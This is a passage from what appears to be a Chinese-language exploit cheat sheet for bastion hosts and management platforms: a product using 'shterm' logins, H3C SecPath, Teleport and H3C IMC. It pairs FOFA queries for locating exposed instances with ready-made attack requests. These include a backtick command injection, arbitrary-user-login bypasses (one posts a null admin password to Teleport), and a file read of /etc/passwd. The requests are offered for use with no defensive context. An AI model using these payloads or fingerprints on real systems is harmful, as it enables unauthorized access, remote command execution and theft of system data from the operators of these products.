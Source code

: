 ```
POST /audit/data_provider.php?ds_y=2019&ds_m=03&ds_d=02&ds_hour=01&ds_min=40&server_cond=&service=`id`&identity_cond=&query_type=all&format=json&browse=true
Host: your-ip

page=1&rp=30&sortname=stampl&sortorder=desc&query=&qtype=
```

##### 任意用户登录

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

#### H3C SecPath

FOFA：

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

#### Teleport 堡垒机

FOFA：

```
app="TELEPORT堡垒机"
```

##### 任意用户登录

返回 code 为 0 说明成功，刷新首页即可进入后台：

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"xxxx","oath":"","remember":false}
```

##### 后台文件读取

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&amp;offset=0
```

### 0x02 IMC

#### H3C IMC 智能管理中心

FOFA：

```
"/imc/javax.faces.resource/images/login_logo_h3c.png.jsf?ln=primefaces-imc-new-webui"
```

```
body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"
```
